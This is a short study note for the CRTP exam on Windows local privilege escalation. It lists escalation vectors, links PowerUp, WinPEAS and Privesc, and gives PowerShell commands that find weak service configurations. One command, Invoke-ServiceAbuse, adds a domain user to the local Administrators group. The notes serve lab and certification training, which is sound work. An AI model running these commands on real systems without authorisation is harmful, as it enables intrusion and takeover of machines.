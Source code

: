 # Local Privilege Escalation



{% hint style="info" %}
The CRTP exam consists of 5 target servers in addition to a foothold student machine.\
The goal is to OS level command execution on all 5 targets not matter what the privileges of the user.
{% endhint %}

####

## Vectors

#### There are various ways of locally escalating privileges on Windows box:&#x20;

* Missing patches – Automated deployment and AutoLogon passwords in clear text&#x20;
* &#x20;AlwaysInstallElevated (Any user can run MSI as SYSTEM)&#x20;
* &#x20;Misconfigured Services – DLL Hijacking and more&#x20;
* NTLM Relaying a.k.a. Won't Fix



This guide offer a sufficiently comprehensive overview of the course material for local privilege escalation

{% embed url="https://github.com/0xStarlight/CRTP-Notes/blob/main/2-Local-Priv-Esc/1-Local-PrivEsc.md" %}

## Tools

### PowerUp

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

### WinPEAS

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

### Privesc

{% embed url="https://github.com/enjoiz/Privesc" %}

### Automated checks

```powershell
# PowerUp
Invoke-AllChecks

# winPEAS
winPEASx64.exe 

# Privesc
Invoke-PrivEsc
```

## Services

{% tabs %}
{% tab title="PowerUp" %}
Find vulnerable service configuration

<pre class="language-powershell"><code class="lang-powershell"><strong># Get services with unquoted paths and spaces
</strong>Get-ServiceUnquoted -Verbose

# Get services where current user can write to binary path
Get-ModifiableServiceFile -Verbose

# Get the services whose configuration current user can modify
Get-ModifiableService -Verbose
</code></pre>

Add domain user to the local Administrators group

```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose  
```
{% endtab %}
{% endtabs %}
